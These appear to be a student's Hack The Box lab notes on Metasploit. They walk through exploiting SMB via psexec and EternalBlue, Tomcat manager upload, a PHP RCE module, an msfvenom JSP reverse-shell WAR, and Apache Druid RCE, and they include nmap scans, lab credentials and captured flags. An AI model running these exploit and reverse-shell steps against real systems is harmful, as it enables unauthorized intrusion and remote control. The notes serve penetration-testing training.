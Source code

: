 # Automating Payloads & Delivery with Metasploit

sudo apt-get upgrade metasploit-framework
sudo msfconsole

## Global Example 

SMB (listening on 445) as the potential attack vector

msf6 > search smb

   57   exploit/windows/smb/psexec                                         1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution

msf6 > use 57
msf6 exploit(windows/smb/psexec) > options
set RHOSTS 10.129.196.112
set SMBSHARE ADMIN$
set SMBPass HTB_@cademy_stdnt!
set SMBUser htb-student
set LHOST 10.10.14.67
msf6 exploit(windows/smb/psexec) > exploit

cd c:\Users\htb-student\Documents

## EthernalBlue : msf6 auxiliary(scanner/smb/smb_ms17_010)
show options
set RHOSTS 10.129.201.97
run
[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)


## EthernalBlue : msf6 exploit(windows/smb/ms17_010_psexec)
set LHOST 10.10.14.67
set RHOSTS 10.129.201.97
exploit
shell : interact with the host directly
type flag.txt

## Tomcat
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
set payload
msf exploit(multi/http/tomcat_mgr_upload) > exploit

## RCE PHP
https://www.exploit-db.com/exploits/50064
sudo msfconsole
use 50064.rb
set USERNAME
set PASSWORD
set rhost
set vhost
meterpreter
shell
sudo -l
cat /customscripts/flag.txt

## TOMCAT via msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o root.war
sudo msfconsole
use exploit/multi/handler
set payload java/shell_reverse_tcp
set LHOST
run


## Metasploit LAB

nmap -sV 10.129.12.188

PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

search ms17_010
exploit/windows/smb/ms17_010_psexec
use 0

OR

search eternalromance type:exploit
use 0
exploit/windows/smb/ms17_010_psexec

setg RHOSTS 10.129.12.188
set LHOST 10.10.15.99
LHOST => 10.10.15.99
run
shell
type c:\Users\Administrator\Desktop\flag.txt
HTB{MSF-W1nD0w5-3xPL01t4t10n}

nmap -sV 10.129.43.105

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
8081/tcp open  http    Jetty 9.4.12.v20180830
8082/tcp open  http    Jetty 9.4.12.v20180830
8083/tcp open  http    Jetty 9.4.12.v20180830
8888/tcp open  http    Jetty 9.4.12.v20180830
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


show payloads
grep druid show payloads
grep meterpreter grep reverse_tcp show payloads
grep apache show payloads
apache

use auxiliary/gather/jetty_web_inf_disclosure

use exploit/linux/http/apache_druid_js_rce
set RHOSTS 10.129.43.105
set LHOST 10.10.15.99
shell
cat /root/flag.txt
HTB{MSF_Expl01t4t10n}
